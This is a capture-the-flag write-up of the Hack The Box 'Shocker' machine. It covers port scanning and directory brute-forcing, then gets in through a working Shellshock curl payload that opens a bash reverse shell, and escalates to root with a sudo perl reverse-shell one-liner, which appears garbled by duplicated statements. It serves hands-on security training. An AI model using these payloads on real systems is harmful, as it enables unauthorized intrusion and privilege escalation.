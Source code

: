 ## ------------->> Shocker <<----------------

// We will start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.56 -p-
-------

    Nmap scan report for 10.10.10.56
    Host is up (0.31s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
    |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
    |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

// Navigating to http://10.10.10.56/ , present us with a website with only photo

![Image 1]()

// Lets search for interesting directories with [gobuster](https://github.com/OJ/gobuster)(By OJ)

    $ gobuster dir -u http://10.10.10.56 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20 
-------

    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.56
    [+] Method:                  GET
    [+] Threads:                 20
    [+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2021/07/07 19:21:00 Starting gobuster in directory enumeration mode
    ===============================================================
    /server-status        (Status: 403) [Size: 299]

    ===============================================================
    2021/07/07 19:47:19 Finished
    ===============================================================

// gobuster = no results
// continue to other tool : [feroxbuster](https://github.com/epi052/feroxbuster)(By epi052)

    $ ./feroxbuster -u http:10.10.10.56 -x php,html
------

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http:10.10.10.56
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     💲  Extensions            │ [php, html]
     🔃  Recursion Depth       │ 4
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    200        9l       13w      137c http://10.10.10.56/index.html
    403       11l       32w      299c http://10.10.10.56/server-status
    [####################] - 4m    179994/179994  0s      found:2       errors:0      
    [####################] - 4m     89997/89997   362/s   http:10.10.10.56


// Not found much either

// ets try -f (force adding '/' to the end of directories) and -n (not scan recursevly)

    $ ./feroxbuster -u http:10.10.10.56 -f -n
-------

    .......
    403       11l       32w      294c http://10.10.10.56/cgi-bin/
    403       11l       32w      292c http://10.10.10.56/icons/
    403       11l       32w      300c http://10.10.10.56/server-status/
    .......

// Greate, We found /cgi-bin/ directory

// Lets try to search with common cgi scripts extensions in /cgi-bin/

    $ ./feroxbuster -u http:10.10.10.56/cgi-bin/ -x sh,cgi,pl
---------

    ......
    200        7l       17w        0c http://10.10.10.56/cgi-bin/user.sh
    ......

// Alsome, found .sh file /cgi-bin/user.sh

// Download the file and see the contant

    $ cat user.sh
    
    Content-Type: text/plain

    Just an uptime test script

    15:28:27 up 10 min,  0 users,  load average: 0.00, 0.01, 0.00

// when i type uptime in my terminal it like the same command

    $ uptime 
    
    20:20:21 up  3:51,  2 users,  load average: 2.05, 1.92, 1.67

// Lets check the answer in BurpSuite Reapeter

![Image 2]()

// we needed to download the file becouse the gap between Content-Length and Content-Type

// so the first Content-Type selected is  text/x-sh which stends for - (execute .sh file)

// which mean there is some talking with the server so lets try to inject code to the server

// u can add the request that sent in burpsuite , OR 

// one of the techniques i have found was shellshock one liner paylad:

    $ curl -H "User-Agent: () { :; };/bin/bash -i >&/dev/tcp/10.10.17.8/1444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh

// before that just run a listiner 

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...

// And we have a shell

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.238] from (UNKNOWN) [10.10.10.56] 43410
    bash: no job control in this shell
    shelly@Shocker:/usr/lib/cgi-bin$ 

// And user flag

    cat user.txt
    631d652c................

### ----Privilleges Escalation----

// Lets check what have sudo permissions

    $ sudo -l
    
    Matching Defaults entries for shelly on Shocker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User shelly may run the following commands on Shocker:
        (root) NOPASSWD: /usr/bin/perl
      
// We can see that shelly able to run perl script with high privilleges(sudo)

// all that last to do is make perl reverse shell

// First open a listiner

    $ rlwrap nc -lvnp 9002

// We can found a perl shell script [here](https://www.revshells.com/)

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Shocker/3.png)

    shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'use Socket;$i="10.10.17.8";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

// We got root shell !!

    $ rlwrap nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.16.238] from (UNKNOWN) [10.10.10.56] 41516
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    root

// And root flag !

    cat root.txt
    309790.................
